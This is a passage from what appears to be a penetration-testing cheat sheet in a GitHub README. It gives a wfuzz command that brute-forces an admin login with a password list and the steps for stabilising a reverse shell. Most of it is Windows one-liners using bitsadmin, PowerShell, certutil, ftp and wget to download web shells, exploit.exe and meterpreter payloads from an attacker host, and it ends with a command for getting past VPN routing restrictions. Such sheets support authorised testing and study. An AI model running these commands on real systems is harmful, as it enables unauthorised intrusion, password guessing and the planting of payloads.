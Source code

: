 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
</pre>

In reverse shell

<pre>
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
bash
</pre>

<a name="windowstransfer"></a><h3> Windows File Transfer </h3>

<b>bitsadmin</b>

`bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php`

<b>cscript wget.vbs (code on the repo)</b>

`cscript wget.vbs http://<ip>/test.txt test.txt`

<b>powershell</b>

`powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"`

<b>ftp</b>

client:

<pre>
echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
</pre>

server:

<code>python -m pyftpdlib  --port=2121 --write</code>

<b>wget.exe</b>

Upload to vulnerable server from kali: ` /usr/share/windows-binaries/wget.exe`

`wget.exe http://<ip>/file file`

<b> certutil </b>

`certutil -urlcache -split -f  https://<ip>/file.txt file.txt`
  
<a name="vpnrestrict"></a><h3> Bypass VPN routing restrictions </h3>

<pre>openconnect vpnXXX02.XXXX.com -u XX -s ‘vpn-slice XXX.46.0.0/16 hostname3 mantis=XXX.41.2XX.68’</pre>

![vpn1](https://user-images.githubusercontent.com/7115563/41146909-30e484de-6b05-11e8-82fb-acfc17a722a2.png)
```
